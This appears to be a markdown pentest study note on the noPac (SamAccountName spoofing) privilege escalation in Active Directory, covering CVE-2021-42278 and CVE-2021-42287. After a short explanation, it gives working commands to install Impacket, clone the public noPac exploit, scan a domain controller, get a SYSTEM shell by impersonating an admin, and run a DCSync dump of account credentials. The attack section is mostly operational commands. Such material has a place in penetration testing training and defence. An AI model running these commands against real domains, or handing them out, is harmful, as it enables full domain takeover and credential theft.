 
## NoPac (**SamAccountName** Spoofing)
A great example of an emerging threat is the [Sam_The_Admin vulnerability](https://techcommunity.microsoft.com/t5/security-compliance-and-identity/sam-name-impersonation/ba-p/3042699), also called `noPac` or referred to as `SamAccountName Spoofing` released at the end of 2021. This vulnerability encompasses two CVEs [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) and [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287), allowing for intra-domain privilege escalation from any standard domain user to Domain Admin level access in one single command.

| 2021-42278                                                                 | 2021-42287                                                                                    |
| -------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| `42278` is a bypass vulnerability with the Security Account Manager (SAM). | `42287` is a vulnerability within the Kerberos Privilege Attribute Certificate (PAC) in ADDS. |

### Simplified Exploit Description
1. **Exploit Overview**:
    - Exploit changes a computer account's `SamAccountName` to match a Domain Controller's.
    - Authenticated users can add up to[ 10 computers to a domain](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/add-workstations-to-domain) by default.
    - Kerberos tickets are then requested, tricking the service into issuing tickets under the DC's name.
    - This leads to access as the DC service, potentially granting a SYSTEM shell on the Domain Controller.
    - The flow of the attack is outlined in detail in this [blog post](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware).
    - We can use this [tool](https://github.com/Ridter/noPac) to perform this attack.
2. **Preparation**:
    - `noPac` uses Impacket for communication, payload uploads, and command execution.
3. **Setup Commands**:
 1.Ensure `Impacket` is installed:
``` shell
git clone https://github.com/SecureAuthCorp/impacket.git
python setup.py install
```
 2. Cloning the NoPac Exploit Repo
``` shell
git clone https://github.com/Ridter/noPac.git
```
### check if the system is vulnerable using a scanner
```shell
sudo python3 scanner.py DOMAIN/USERNAME:PASSWORD -dc-ip DC_IP -use-ldap
```
Results in success:
![image](https://github.com/user-attachments/assets/4af1d976-2d20-4824-9e4d-206d1ee0cf31)
### Running NoPac & Getting a SYSTEM Shell
```shell
sudo python3 noPac.py DOMAIN/USERNAME:PASSWORD -dc-ip DC_IP -dc-host DC_HOSTNAME -shell --impersonate ADMIN_USER -use-ldap
```
### Using NoPac to Perform a DCSync Attack:
```shell
sudo python3 noPac.py DOMAIN/USERNAME:PASSWORD -dc-ip DC_IP -dc-host DC_HOSTNAME --impersonate ADMIN_USER -use-ldap -dump -just-dc-user DOMAIN/ADMIN_ACCOUNT
```
![image](https://github.com/user-attachments/assets/dc210d2b-862e-497b-b2b7-936f1e2afa66)

### **Key Notes**

Keep in mind with smbexec shells we will need to use exact paths instead of navigating the directory structure using cd.
Use `dir path/to/navigate/it`
